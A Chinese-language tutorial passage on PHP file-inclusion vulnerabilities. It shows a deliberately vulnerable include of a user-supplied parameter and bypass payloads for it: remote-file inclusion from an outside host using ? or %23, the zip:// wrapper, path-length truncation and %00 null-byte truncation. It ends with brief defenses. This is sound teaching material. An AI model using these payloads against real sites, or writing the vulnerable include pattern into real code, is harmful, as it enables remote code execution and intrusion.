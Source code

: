 ~~~php
<?php
	$file = $_GET['file'];
	include $file.'/test/test.php';
?>
~~~

### 利用URL特殊符号

#### query(?)

~~~
index.php?file=http://remoteaddr/remoteinfo.txt?
~~~

则包含的文件为 `http://remoteaddr/remoteinfo.txt?/test/test.php`

#### fragment(#)

~~~
index.php?file=http://remoteaddr/remoteinfo.txt%23
~~~

则包含的文件为 `http://remoteaddr/remoteinfo.txt#/test/test.php`

> 注意需要把#进行url编码为%23。

### 利用协议

利用zip协议，注意要指定绝对路径

~~~
index.php?file=zip://D:\phpStudy\WWW\fileinclude\chybeta.zip%23chybeta
~~~

则拼接后为：zip://D:\phpStudy\WWW\fileinclude\chybeta.zip#chybeta/test/test.php

### 长度截断

利用条件：

php版本小于5.2.8

目录字符串，在linux下4096字节时会达到最大值，在window下是256字节。只要不断的重复`./`，则后缀`/test/test.php`，在达到最大值后会被直接丢弃掉。

### 0字节截断

利用条件： 
php版本小于5.3.4

~~~
index.php?file=phpinfo.txt%00
~~~

# 防御方案

1. 在很多场景中都需要去包含web目录之外的文件，如果php配置了open_basedir，则会包含失败
2. 做好文件的权限管理
3. 对危险字符进行过滤等等
